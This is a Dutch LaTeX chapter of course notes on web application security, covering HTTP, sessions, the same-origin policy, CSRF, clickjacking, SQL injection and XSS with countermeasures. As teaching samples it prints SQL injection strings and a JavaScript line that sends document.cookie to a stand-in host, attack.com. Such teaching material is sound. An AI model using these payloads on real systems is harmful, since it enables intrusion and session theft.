\documentclass[../main.tex]{subfiles} 
\begin{document}
\chapter{Webapplicaties}

\section{Het webplatform}
Een gebruiker start een webapplicatie door in zijn browser te navigeren naar een URL:

\begin{lstlisting}[caption=URL]
scheme://login.passwd@address:port/path/to/resource?query\_string#fragment
\end{lstlisting}
Deze URL, die een HTTP dialoog start tussen de browser en de server bestaat uit:
\begin{multicols}{2}
\begin{enumerate}
	\item Schema of protocolnaam: http, https, ftp
	\item Credentials: loginnaam en wachtwoord
	\item Adres: een DNS naam of een IP adres
	\item Poort: optioneel poortnummer
	\item Hi\"erarchisch pad naar de resource
	\item Een optionele query string parameter
	\item Een optionele fragment identificatie 
\end{enumerate}
\end{multicols}

\subsection{HTTP}
Het \textbf{Hypertext Transfer Protocol} is een toestandsloos applicatie-level \textbf{request-response} protocol. Het wordt vaak gecombineerd met mechanismen om toch een toestand te kunnen bijhouden. Daarnaast wordt het doorgaans gecombineerd met extensies voor authenticatie en veilige communicatie. 

Het protocol voorzien verschillende methoden waarvan er slecht twee veelgebruikt zijn in praktijk:
\begin{itemize}
	\item \textbf{GET} bedoeld voor het ophalen van informatie. 
	\item \textbf{POST} bedoeld voor het doorsturen van informatie.
\end{itemize}
De \textit{requests} kunnen een vari\"eteit aan headers bevatten, waarvan de meeste veiligheidsgerelateerd.

\subsubsection{HTTPS}
Het Hypertext Transfer Protocol biedt zelfs geen beveiligde communicatie aan. Het HTTPS schema gebruikt HTTP bovenop het SSL/TLS protocol. Dit is een gestandaardiseerd transport layer protocol dat een veilige verbinding aanbiedt. Dit protocol is in grote mate configureerbaar waardoor de veiligheidsgaranties hier sterk afhankelijk van zijn.
\begin{itemize}
	\item Gewoonlijk: integriteit en vertrouwelijkheid van communicatie
	\item Soms: authentificatie van de server
	\item Zelden: authentificatie van de cli\"ent
\end{itemize}

\subsubsection{HTTP Cookie}
Het \textit{cookie}mechanisme laat de server toe om \textit{key-value pairs} op te slaan in de browser. De server gebruikt hiervoor de \texttt{set-cookie} header om de cookie op te slaan. Alle relevante cookies worden meegestuurd in de header bij elke request naar de server. De server heeft controle over aspecten zoals de vervaldatum, de strekking en de beveiligingsmaatregelen.

\subsubsection{HTTP Sessions}
Om request van een gebruiker te groeperen maakt de server een \textbf{session-id} voor elke gebruiker. Om te zorgen dat deze telkens wordt meegestuurd bij elke request kan gebruik gemaakt worden van \textit{Cookies} of door het embedden van het session-id in de URL. Vanuit beveiligingsperspectief zijn web sessies zeer fragiel.  

\subsubsection{HTTP Authenticatie}
Er bestaat verschillende mogelijkheden tot authenticatie:
\begin{itemize}
	\item \textbf{Basic HTTP Authenticatie} Een gebruikersnaam en paswoord worden meegestuurd in de header met een request.
	\item \textbf{Applicatie-level authenticatie} Aan de hand van een \textit{form} worden gebruikersnaam en wachtwoord doorgestuurd naar de server. Optimaal gebeurt dit via HTTPS.
	\item \textbf{Single-Sing-On} Ondersteunen van een enkelvoudige combinatie van gebruikersnaam en wachtwoord voor meerdere webapplicaties.
\end{itemize}

\subsection{De browser}
De browser toont HTML en voert \textit{JavasSript} code uit. Het handelt gebruikersevenement en netwerkevenement af. Daarnaast biedt het een krachtige API aan voor scripts:
\begin{multicols}{2}
\begin{itemize}
	\item Inspecteren en aanpassen van de pagina
	\item Inspecteren en aanpassen van metadata
	\item Zenden en ontvangen van HTTP
	\item Afhandelen van evenementen
\end{itemize} 
\end{multicols}

\section{Bedreigingsscenario's}
Daar het web een complex applicatieplatform vorm en er verschillende belanghebbende zijn beteken veiligheid iets verschillend voor elke belanghebbende. Tegenmaatregelen doen veronderstellingen met betrekking tot welke stakeholders kwaadaardig zijn en welke niet. In dit onderdeel worde enkele veelvoorkomende aanvallen beschreven.

\subsection{Scenario's}
Een overzicht van de scenario's
\begin{itemize}
	\item Goedaardige browser interageert met kwaadaardige server. De server valt de browser aan.
	\item Kwaadaardige server valt andere open sites aan.
	\item Kwaadaardige browser valt server aan.
	\item Aanvaller luister netwerkcommunicatie af.
	\item Aanvaller injecteert goede site met kwaadaardige inhoud.
\end{itemize}

\subsubsection{Kwaadaardige server valt browser aan}
De tegenmaatregel bestaat uit een defensieve implementatie van de browser. Dit gebeurt in eerste instantie door \textit{implementation level} kwetsbaarheden te voorkomen. Daarnaast moet er een veilig ontwerp aan de basis liggen van de API's die worden aangeboden aan scripts:
\begin{itemize}
	\item Scripts hebben geen toegang tot algemeen bestandssysteem.
	\item Scripts hebben geen toegang tot algemene netwerk API.
	\item Scripts hebben geen toegang tot algemene GUI API.
\end{itemize}
Ondanks deze tegenmaatregelen blijven veel aanvallen mogelijk. Het exploiteren van low-level kwetsbaarheden in de browser blijft een veelvoorkomende activiteit. Bovendien bevat de browser privacy-gevoelige informatie die gelekt kan worden. Tenslotte gaan veel servers \textit{een vingerafdruk} nemen van de browser om zo de gebruiker te \textit{tracken}.

\subsubsection{Server valt andere open pagina aan}
De remedie tegen deze aanval is het afdwingen van de \textbf{same-origin-policy (SOP)}. Dit is een verzameling beveiligingsbeperkingen die worden geimplementeerd in de browser:
\begin{itemize}
	\item Scripts kunnen enkel aan informatie die afkomstig is van dezelfde oorsprong als het script. 
	\item Een oorsprong wordt weergegeven als een triplet:  \texttt{<scheme, address, port>}
	\item De HTML inhoud hoort bij de origin vanwaar het was gedownload.
	\item Scripts horen tot de origin van het HTML document dat hun bevatte.
\end{itemize} 
Deze techniek bescherm websites tegen kwaadaardige scripts van kwaadaardige websites die gelijktijdig geopend zijn in de browser. 
\\\\
Deze techniek is echter niet perfect. Door entiteiten in de DOM kan een script een HTTP request starten bij een andere server. Wanneer de browser geprivilegieerde toegang heeft tot een server kan deze worden misbruikt door de aanvaller. Zo kan een script bijvoorbeeld toegang verkrijgen tot servers achter een firewall. Een ander voorbeeld is wanneer een gebruiker een geautoriseerde sessie heeft met een andere server en een script hierdoor geautoriseerde requests kan sturen. Een andere aanvalsmethode bestaat erin event-handlers te overloaden en zo te achterhalen of een server bestaat of beschikbaar is voor de gebruiker.

\subsubsection{Kwaadwillige cli\"ent val server aan}
De tegenmaatregelen voor deze aanval zijn vanzelfsprekend: toegangscontrole en authenticatie uitvoeren op de server. Typische aanvallen zijn SQL injectie, path inject of command inject.

\subsubsection{Aanvaller neust rond op het netwerk}
De tegenmaatregel hiervoor is gebruik maken van SSL/TLS. Mogelijke aanvallen hierop zijn op hun beurt het aanvallen van de publieke sleutelinfrastructuur, het ssl protocol of doen aan SSL stripping. Dit laatste betekent alle \texttt{https} voorkomens vervangen door \texttt{http} in de brondcode van de gedownloade webpagina.

\subsubsection{Injectie van kwaadaardige scripts}
Een aanvaller kan op verschillende manieren een scrip injecteren:
\begin{itemize}
	\item Door \textbf{Cross-site scripting (XSS)} door het uitbuiten van kwetsbaarheden vergelijkbaar met SQL injectie.
	\item Distributie van kwaadaardige advertenties.
	\item Hacken van een website die een veelgebruikt script host.
	\item Uitbuiten van extensies van een derde-partij.
\end{itemize}
E\'enmaal onderdeel van de pagina kan het script de integriteits- en betrouwbaarheidsgarantie van de site doorbreken (en van de bijhorende sessie).

\section{Kwetsbaarheden en maatregelen}

\subsection{Session handling}
Het tracken van sessies gebeurt doorgaans met cookies. Het authenticatieniveau is doorgaans verbonden met de sessie waardoor, wanneer de hacker de sessie kan overnemen, hij zich kan gedragen als de gebruiker met diens privileges.

\subsubsection{Session Hijacking}
Session hijacking is een aanval waarbij de aanvaller toegang probeert te krijgen tot de waarde van de sessie-cookie. Dit kan door het netwerk te \textit{sniffen}, door de cookie te stelen aan de hand van een script of door de waarde te gokken. 

Tegenmaatregelen hiervoor bestaan uit het gebruiken van SSL/TLS of een \textit{random number}-generator worden gebruikt. De cookie beschikt ook over een HTTPSonly-flag wat ervoor zorgt dat de cookie steeds wordt versleuteld. 

\subsubsection{Session Fixation}
Bij deze aanval forceert de aanvaller de gebruiker om de sessie-ID van de aanvaller te gebruiken. Een eenvoudige tegenmaatregeln bestaat uit het vervangen van de session-cookie wanneer het niveau van authenticatie verandert.

\subsubsection{Cross-site Request Forgery (CSRF)}
Deze aanval bestaat uit een aanvaller die de browser misleidt tot het injecteren van een request in een geautoriseerde sessie. Dit kan a.d.h.v scripting of het insluiten van een niet-lokale resources. Tegenmaatregelen bestaan uit het gebruiken van een geheim token en het strikt nakijken van de \textit{origin header}. Tenslotte bestaan er ook oplossing langs de kant van de cli\"ent zoals \textit{CsFire}.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.6\textwidth]{images/CSRF.png}
    \caption{Cross-Site Request Forgery}
    \label{fig:awesome_image}
\end{figure}

\subsection{Clickjacking}
De cli\"ent wordt misleid tot het klikken op een knop en link die een request start binnen de geautoriseerde sessie door het plaatsen van een onzichtbare frame over een andere pagina. Tegenmaatregelen zijn \textit{Framebusting Javasript code} of gebruik van de \textit{X-Frame-Options} header. Deze laatste voorziet dat een pagina niet in een frame kan weergegeven worden.

\subsection{SQL injectie}
De meeste webpagina's geven HTML weer na interactie met een gegevensbank. Deze interactie bestaat doorgaans uit SQL queries die (deels) worden gevormd aan de hand van gebruikersinvoer. Een SQL injectie is een aanval waarbij de gebruiker erin slaagt zo'n invoer te voorziend at het effect van SQL querie verandert. 
\\\\
Elke invoer gebruikt door de webapplicatie die kan gemanipuleerd worden door de aanvaller is een mogelijke plaats voor injectie.
\begin{itemize}
	\item HTML form fields
	\item Cookies
	\item HTTP request headers
	\item \textbf{Second-Order} injecties: twee-fasen aanval
	\begin{enumerate}
		\item Voorzie invoer in de database.
		\item Gebruik deze gegevens uit de database om nieuwe queries te vormen.	
	\end{enumerate}
\end{itemize}

\subsubsection{Voorbeeld second-order injectie}
\begin{enumerate}
	\item Registreer als een gebruiker met de naam \texttt{admin' --}.
	\begin{itemize}
		\item Op dit moment is er nog geen sprake van injectie. De naam is correct opgeslagen in de database.
		\item Veronderstel nu dat het aanpassen van wachtwoorden gebeurd zoals in de listing hieronder.
	\end{itemize}
	\item Als we nu ons wachtwoord aanpassen krijgen we een nieuwe query zoals hieronder.
\end{enumerate}
\begin{lstlisting}[caption=Updaten wachtwoord]
queryString = "UPDATE users SET password=`" + newPassword + "` WHERE userName=`" + userName + "` AND password=`" +oldPassword+ "`"
\end{lstlisting}
\begin{lstlisting}[caption=SQL Injection]
queryString = "UPDATE users SET password=`newpwd` WHERE userName=`admin`--` AND password=`oldPassword`"
\end{lstlisting}

\subsubsection{Doelstelling}
De aanvaller kan verschillende doelen hebben:
\begin{multicols}{2}
\begin{itemize}
	\item Identificeren van injecteerbare parameters
	\item Verkrijgen metadata van de database
	\item Ophalen, aanpassen of updaten van data
	\item Een DoS-aanval uitvoeren
	\item Authenticatie omzeilen
	\item Verhogen van privileges
\end{itemize}
\end{multicols}

\subsubsection{Injectievormen}

\paragraph{Tautologie} Door het invoeren van \texttt{` or 1=1--} krijgen we onderstaande query met als resultaat dat de authenticatie slaagt.
\begin{lstlisting}[caption=Tautologie]
SELECT accounts FROM users WHERE
login=`` or 1=1 -- AND pass=`` and pin=
\end{lstlisting}

\paragraph{Illegal / logically incorrect queries} Door een foutieve query te vormen krijgen we een error bij diens uitvoer. Neem als invoer
\begin{lstlisting}[caption=Illegal input]
convert(int,(select top 1 name from sysobjects where xtype=`u`))
\end{lstlisting}
\noindent
Daarnaast zijn er nog verschillende ander manieren:
\begin{multicols}{2}
\begin{itemize}
	\item Piggy-backed queries
	\item Blind injection
	\item Timing attacks
	\item Obfuscating encoding
\end{itemize}
\end{multicols}

\subsubsection{Tegenmaatregelen}
Tegenmaatregelen kunnen worden genomen in de drie fasen van de ontwikkelingscyclus:
\begin{enumerate}
	\item \textbf{At coding time} Voorkom de introductie van kwetsbaarheden.
	\item \textbf{At testing time} Onderschep de aanwezigheid van kwetsbaarheden.
	\item \textbf{At run time} Onderschep aanvallen die overblijvende kwetsbaarheden exploiteren.
\end{enumerate}

\paragraph{Preventie} Preventie bestaat uit defensief programmeren. Het is veel interessanter en goedkoper om dit vooraf te doen dan bij bestaande code.
\begin{itemize}
	\item Zuiveren van in- en uitvoer. 
	\item Whitelisten van toegestane invoer.
	\item Identificeren van alle invoerbronnen.
	\item Gebruikmaken van gebruiksklare statements.
	\item Gebruikmaken van nieuwe query ontwikkelingstechnieken.
\end{itemize}

\paragraph{Onderscheppen} Statische, dynamische of hybride controle van code tijdens de ontwikkelings- en testfase. Deze technieken zijn gebaseerd op een verzameling regels die gevaarlijke patronen onderscheppen.
\\\\
Voorbeelden van dergelijke programma's zijn \textit{Fortify Source Code Analyzer}, \textit{FindBugs}, \textit{Coverity Static Analysis}. Deze software kan echter slachtoffer worden van \textit{false-positives} en \textit{false-negatives}.

\subsection{Scripts}
Hoewel de \textbf{SOP} voorkomt dat script rechtstreeks verbinding maken met server van de aanvaller kunnen script toch entiteiten aan de webpagina toevoegen die leiden tot een HTTP request naar een script-specifieke server. Als voorbeeld zien we hieronder hoe een script een cookie kan lekken naar een andere server.
\begin{lstlisting}[caption=Javascript code om cookie te lekken]
new Image().src = "http://attack.com/?=" + document.cookie;
\end{lstlisting}
Het is zelfs mogelijk voor het script om in twee richtingen te communiceren door het insluiten van een script. 
\\\\
Voorgaande techniek kan gebruikt worden om de session cookie te lekken. Eens hiervan in het bezit kan de aanvaller de hele sessie overnemen. Een andere aanval bestaat uit een script dat willekeurige requests stuurt naar de server van waar het script komt en op die manier bijkomende requests stuurt in de gebruikerssessie.

\subsubsection{Tegenmaatregelen}
Er zijn twee algemene tegenmaatregelen voor dit probleem:
\begin{itemize}
	\item Ontwerp van de JavaScript API en de browser
	\item De \textit{Same-Origin-Policy} die wordt afgedwongen door de brwoser
\end{itemize}
Deze twee zullen de meeste aanvallen kunnen stoppen. Toch zijn bijkomende tegenmaatregelen belangrijk. 

\begin{itemize}
	\item Defensief programmeren aan de serverzijde om zich te beschermen tegen \textit{XSS} kwetsbaarheden.
	\item  De \textbf{Content Security Policy} is een nieuwe \textit{W3C} standaard die toelaat aan de eigenaar van de pagina om te declareren waar de cli\"en verwacht wordt inhoud op te halen. 
	\item \textbf{Sandboxing} van JavaScript code beperkt de mogelijhkheden van een script aan de hand van een beleid dat door de programmeur is gespecificeerd.
	\item \textbf{Information flow security} beperkt de stroom van informatie door scripts van gevoelige bronnen naar publieke servers.
\end{itemize}

\subsection{Andere}
Hier zijn nog enkele niet te verwaarlozen kwetsbaarheden en bijhorende voorbeelden:
\begin{itemize}
	\item \textbf{Zwakke toegangscontrole}: \textbf{forceful browsing}, \textit{slechte of geen beveiligingsbeleid}
	\item \textbf{Zwakke cryptografische bescherming}: \textit{SSL stripping}, \textit{PKI fouten}.
	\item \textbf{Fouten bij de browserimplementatie}: \textit{Drive-by-downloads}, \textit{heap spraying}
\end{itemize}

\section{Conclusies}
We kunnen concluderen dat het web een zeer invloedrijk applicatieplatform vormt. De technologie en complexiteit ervan maakt het kwetsbaar op verschillende vakken. Kwetsbaarheden en aanvallen die we overigens ook op het mobiel platform mogen verwachten. Veel aanvalstechnieken zijn goed begrepen maar er komen er steeds nieuwe aan het oppervlak. Zoals altijd is het een race tussen aanvaller en verdediger.


\end{document}